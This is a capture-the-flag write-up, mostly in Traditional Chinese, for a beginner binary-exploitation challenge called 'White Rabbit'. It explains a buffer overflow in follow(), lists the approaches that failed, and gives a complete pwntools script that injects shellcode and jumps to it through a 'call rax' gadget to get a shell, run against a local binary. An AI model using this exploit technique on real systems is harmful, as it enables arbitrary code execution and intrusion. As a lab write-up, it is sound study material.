


# Beginners - White Rabbit Writeup

---  


## FLAG：
` `

## 觀察：
- 執行檔案：印出一隻兔子以及main位址後等待使用者輸入。
  
- IDA分析：
	- `main()`：
	- `follow()`：

## 思路：
- `follow()`有buffer overflow。沒有stack canary，因此可以直接複寫return address。
- **(failed)** leak libc/stack：`puts()`與`printf()`參數為`rdi`與`rax`，但能自由控制暫存器值的gadget只有`pop rbp; ret`。
- **(failed)** GOT hijacking using `mov`：無法leak出libc address。
- **(failed)** GOT hijacking using `add`：沒有可用的gadget。
- **(failed)** ret2stack：無法leak出stack address。
- `get()`返回時，rax指向stack。可以搭配`call rax`這個gadget。

## 目標：
- 跳到stack上執行shellcode。

## Exploit：  

```python
from pwn import *
  
exe = ELF("./white_rabbit", checksec=False)
context.binary = exe
context.arch = 'amd64'
context.encoding = 'latin'
context.log_level = 'INFO'
warnings.simplefilter("ignore")
sh = asm(shellcraft.sh())
  
p = process('./white_rabbit')
p.recvuntil(b'  / > ')
main = int(p.recvline().decode(),16)
call_rax = main - 0x1180 + 0x1014
print(f'{hex(main) = }')
print(f'{hex(call_rax) = }')
  
p.recvuntil(b'follow the white rabbit...\n')
pause()
p.sendline(sh + b'A'*(112-len(sh)) + b'B'*8 + p64(call_rax))
p.interactive()
```

